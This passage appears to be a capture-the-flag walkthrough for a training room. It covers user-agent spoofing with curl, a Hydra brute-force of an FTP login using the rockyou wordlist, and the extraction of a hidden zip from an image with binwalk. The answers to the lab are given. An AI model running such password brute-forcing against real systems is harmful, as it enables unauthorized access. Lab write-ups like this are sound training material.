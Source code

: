 ```bash
# to change user-agent and redirect the page
curl "http://10.10.98.58/" -A "C" -L
```

3. What is the agent name?

```
chris
```

```
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

## Task 3

1. FTP password

```
crystal
```

```bash
hydra -l chris -P Desktop/rockyou.txt ftp://$IP 
#[21][ftp] host: 10.10.98.58   login: chris   password: crystal
```

2. Zip file password

```
alien
```
after access on ftp server we got 3 files :
+ To_agentJ.txt
+ cute-alien.jpg
+ cutie.png

then we download it by using
```bash
mget 
```
frist we reading the text file `To_agentJ.txt`
second we running command `strings` on `cutie.png` seemed like it had some txt file hidden in it
third i used `binwalk` on it 

| tool | decscription |
| ---- | ------------ |
| binwalk | a tool for finding embedded files and executables in images |

```bash
binwalk cutie.png
```
Then, this showed,that some zip file was hidden in image
so i exterct this using `binwalk` command
